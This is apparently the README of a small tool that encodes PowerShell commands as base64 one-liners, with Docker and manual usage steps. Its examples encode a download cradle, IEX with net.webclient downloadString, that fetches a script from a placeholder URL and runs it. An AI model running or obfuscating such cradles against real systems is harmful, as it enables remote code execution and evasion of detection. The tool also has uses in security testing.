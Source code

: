 # Powershell Encoder

## Description

Script to make Powershell base64 one-liners. 👨‍💻 👩‍💻

## Download and Execution

### Docker

```
git clone https://github.com/oddrabbit/Powershell-Encoder.git
cd Powershell-Encoder/
chmod +x ./docker-run.sh
./docker-run.sh
./docker-run.sh --command 'IEX(new-object net.webclient).downloadString("http://example.com/script.ps1")'
```

### Manual

```
git clone https://github.com/oddrabbit/Powershell-Encoder.git
cd Powershell-Encoder/
python3 ./powershell_encoder.py
python3 powershell_encoder.py --command 'IEX(new-object net.webclient).downloadString("http://example.com/script.ps1")'
```

## License

GNU General Public License version 2 (GPLv2). See LICENSE file.
